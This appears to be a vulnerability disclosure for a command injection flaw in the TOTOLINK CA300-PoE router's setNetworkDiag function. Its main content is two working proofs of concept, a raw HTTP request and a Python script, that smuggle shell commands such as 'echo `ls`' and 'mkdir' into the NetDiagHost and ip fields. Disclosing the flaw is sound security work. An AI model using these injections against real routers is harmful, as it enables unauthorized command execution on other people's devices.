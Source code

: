 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the NetDiagHost parameter in the function setNetworkDiag

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setNetworkDiag`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl":"setting/setNetworkDiag","NetDiagMethod":"0","NetDiagHost":"www.baidu.com|expr 50 - 3;"}
```

![image-20230112110403648](images/3.png)

POC2:

```
import requests
url = "http://192.168.0.254:80/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1672999258:2"}
data = {"topicurl" : "setDiagnosisCfg",
"ip" : "192.168.1.1||mkdir /test1111;"}

data1 = {'topicurl' : "setting/setNetworkDiag","NetDiagMethod" : "0", "NetDiagHost":"www.baidu.com|echo `ls`;"}

response = requests.post(url, cookies=cookie, json=data1)
print(response.text)
print(response)

data2 = {"topicurl":"setting/showNetworkDiag"}
response = requests.post(url, cookies=cookie, json=data2)
print(response.text)
print(response)

```

![image-20230112151607217](images/4.png)

The function `setNetworkDiag` is used to set the corresponding variable

![image-20230112182605470](images/5.png)

In function `showNetworkDiag`

![image-20230112182702672](images/6.png)

step into function `getDiagInfo`

![image-20230112182800857](images/7.png)
